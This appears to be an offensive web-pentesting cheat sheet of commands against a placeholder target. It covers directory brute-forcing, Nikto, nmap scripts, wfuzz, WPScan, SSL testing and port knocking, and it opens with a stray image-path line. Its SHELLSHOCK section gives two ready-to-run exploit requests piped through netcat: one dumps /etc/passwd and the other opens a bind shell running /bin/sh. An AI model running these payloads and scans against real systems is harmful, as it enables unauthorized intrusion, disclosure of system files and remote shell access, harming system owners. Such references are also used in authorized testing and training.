 #Search for folders with gobuster

gobuster -w /usr/share/wordlists/dirb/common.txt -u $ip

Dirb

#Dirb - Directory brute force finding using a dictionary file
dirb http://$ip/ wordlist.dict dirb <http://vm/>

#Dirb against a proxy
dirb [http://$ip/](http://172.16.0.19/) -p $ip:3129

#Nikto 
nikto -h $ip
nikto -useproxy http://$ip:3128 -h $ip

--------------------------------------------------------------------------------------------------------
SHELLSHOCK
--------------------------------------------------------------------------------------------------------

echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; echo \\$(</etc/passwd)\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80
echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; /usr/bin/nc -l -p 9999 -e /bin/sh\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80



--------------------------------------------------------------------------------------------------------
NMAP 
--------------------------------------------------------------------------------------------------------

# Test for shellshock
nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/admin.cgi $ip

# HTTP Enumeration with NMAP
nmap --script=http-enum -p80 -n $ip/24

# Nmap Check the server methods
nmap --script http-methods --script-args http-methods.url-path='/test' $ip

# Options from a web server
curl -vX OPTIONS vm/test

# Uniscan
uniscan -qweds -u <http://vm/>

--------------------------------------------------------------------------------------------------------
WFuzz
--------------------------------------------------------------------------------------------------------

wfuzz -c -w /usr/share/wfuzz/wordlist/general/megabeast.txt $ip:60080/?FUZZ=test
wfuzz -c --hw 114 -w /usr/share/wfuzz/wordlist/general/megabeast.txt $ip:60080/?page=FUZZ
wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt "$ip:60080/?page=mailer&mail=FUZZ"
wfuzz -c -w /usr/share/seclists/Discovery/Web_Content/common.txt --hc 404 $ip/FUZZ
wfuzz -c -w /usr/share/seclists/Discovery/Web_Content/common.txt -R 3 --sc 200 $ip/FUZZ


# Port Knocking
Open a service using a port knock (Secured with Knockd)

for x in 7000 8000 9000; do nmap -Pn --host_timeout 201 --max-retries 0 -p $x server_ip_address; done

#Wordpress Scanning
wpscan --url $ip/blog --proxy $ip:3129

#SSL Testing
./testssl.sh -e -E -f -p -y -Y -S -P -c -H -U $ip | aha > OUTPUT-FILE.html






